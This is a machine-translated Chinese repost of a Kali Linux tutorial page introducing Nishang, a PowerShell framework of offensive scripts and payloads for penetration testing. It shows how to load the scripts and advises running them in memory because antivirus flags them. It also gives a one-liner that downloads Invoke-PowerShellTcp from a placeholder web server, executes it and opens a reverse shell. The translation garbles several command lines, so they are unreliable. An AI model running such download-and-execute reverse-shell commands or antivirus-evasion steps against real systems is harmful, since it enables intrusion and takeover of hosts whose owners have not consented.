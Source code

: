 # 霓裳:红队的进攻 PowerShell，渗透测试和进攻安全

> 原文：<https://kalilinuxtutorials.com/nishang/>

[![Nishang : Offensive PowerShell For Red Team, Penetration Testing & Offensive Security](img/21f2d28a04ae4e5430aad7bf42023946.png "Nishang : Offensive PowerShell For Red Team, Penetration Testing & Offensive Security")](https://1.bp.blogspot.com/-xliKR-4Va70/XsjY7ir5C-I/AAAAAAAAGck/L1ypn0Nd5jwfdREnsUqGJStrI77M3FpLQCLcBGAsYHQ/s1600/nishang%25281%2529.png)

Nishang 是一个脚本和有效负载的框架和集合，支持将 PowerShell 用于攻击性安全、渗透测试和 red teaming。Nishang 在渗透测试的所有阶段都是有用的。

**用途**

导入当前 PowerShell 会话中的所有脚本(PowerShell v3 以上)。

PS C:\霓裳>导入-模块。\nishang.psm1

将单独的脚本用于点源。

**PS C:\霓裳>。C:\霓裳\ Gather \ Get-Information . PS1
PS C:\霓裳> Get-Information**

要获得关于任何脚本或函数的帮助，请使用:

**PS C:\霓裳>Get-Help[script name]-full**

请注意，帮助适用于运行脚本后加载的函数，而不是版本 0.3.8 以后的脚本本身。在所有情况下，函数名与脚本名相同。

例如，要查看关于 Get-WLAN-Keys.ps1 的帮助，请使用

**PS C:\霓裳>。C:\ nishang \ Get-WLAN-Keys . PS1
PS C:\ nishang>Get-Help Get-WLAN-Keys-Full**

**反病毒**

霓裳脚本被许多反病毒标记为恶意。目标上的脚本应该在内存中使用，使用 PowerShell 很容易做到这一点。在内存中执行 PowerShell 脚本的两种基本方法:

方法一。使用内存中的下载和执行:使用下面的命令从远程 Shell、meterpreter 本机 shell、web shell 等执行 PowerShell 脚本。以及由其导出的函数。Nishang 中的所有脚本都在当前 PowerShell 会话中导出了一个同名的函数。

powershell iex(新对象网络。WebClient)。download string(' http://<yourwebserver>/Invoke-powershell TCP . PS1 ')；invoke-powershell TCP-Reverse-IP address[IP]-Port[Port no .]</yourwebserver>
